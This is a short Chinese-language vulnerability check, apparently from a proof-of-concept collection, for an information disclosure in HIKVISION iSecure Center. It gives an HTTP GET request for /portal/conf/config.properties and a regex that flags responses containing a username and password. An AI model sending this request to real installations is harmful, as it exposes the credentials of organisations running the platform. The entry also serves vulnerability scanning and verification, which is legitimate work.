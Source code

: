 ﻿# HIKVISION iSecure Center综合安防管理平台信息泄露

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /portal/conf/config.properties HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?username)(?=.*?password).*?$

> 上传文件定位：

> 验证文件来源：HIKVISION iSecure Center综合安防管理平台信息泄露.poc
